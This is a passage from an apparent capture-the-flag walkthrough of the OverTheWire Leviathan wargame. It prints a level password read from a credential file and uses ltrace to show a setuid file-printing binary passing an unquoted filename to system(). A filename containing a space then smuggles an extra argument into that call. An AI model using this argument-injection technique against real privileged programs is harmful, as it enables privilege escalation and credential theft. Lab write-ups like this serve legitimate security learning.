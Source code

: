 ```bash
$ whoami
leviathan2
$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta
```

## Level 02 Solution

This challenge was the most interesting of the wargame and certainly the most difficult for me.

```bash
$ ssh leviathan2@leviathan.labs.overthewire.org -p 2223

leviathan2@leviathan:~$ ls
printfile
leviathan2@leviathan:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Interesting... Let's create a temporary folder with a file and do an `ltrace` to see the functions called by the process.

```bash
leviathan2@leviathan:~$ mkdir /tmp/ax
leviathan2@leviathan:~$ cd /tmp/ax
leviathan2@leviathan:/tmp/ax$ echo bar > foo.txt
leviathan2@leviathan:/tmp/ax$ ~/printfile foo.txt 
bar
leviathan2@leviathan:/tmp/ax$ ltrace  ~/printfile foo.txt
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("foo.txt", 4)                                                            = 0
snprintf("/bin/cat foo.txt", 511, "/bin/cat %s", "foo.txt")                     = 16
geteuid()                                                                       = 12002
geteuid()                                                                       = 12002
setreuid(12002, 12002)                                                          = 0
system("/bin/cat foo.txt"bar
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                          = 0
+++ exited (status 0) +++
```

Here we can see an *access()* call with our filename and a *system()* call to **/bin/cat** on the file. It took me a while to figure this out but, check what happens when you use a filename with a space...

```bash
leviathan2@leviathan:/tmp/ax$ echo blah > "foo.txt bar.txt"
leviathan2@leviathan:/tmp/ax$ cat "foo.txt bar.txt"
blah
leviathan2@leviathan:/tmp/ax$  ~/printfile "foo.txt bar.txt"
bar
/bin/cat: bar.txt: No such file or directory
leviathan2@leviathan:/tmp/ax$ ltrace  ~/printfile "foo.txt bar.txt"
__libc_start_main(0x804852b, 2, 0xffffd744, 0x8048610 <unfinished ...>
access("foo.txt bar.txt", 4)                                                    = 0
snprintf("/bin/cat foo.txt bar.txt", 511, "/bin/cat %s", "foo.txt bar.txt")     = 24
geteuid()                                                                       = 12002
geteuid()                                                                       = 12002
setreuid(12002, 12002)                                                          = 0
system("/bin/cat foo.txt bar.txt"bar
/bin/cat: bar.txt: No such file or directory
 <no return ...>
```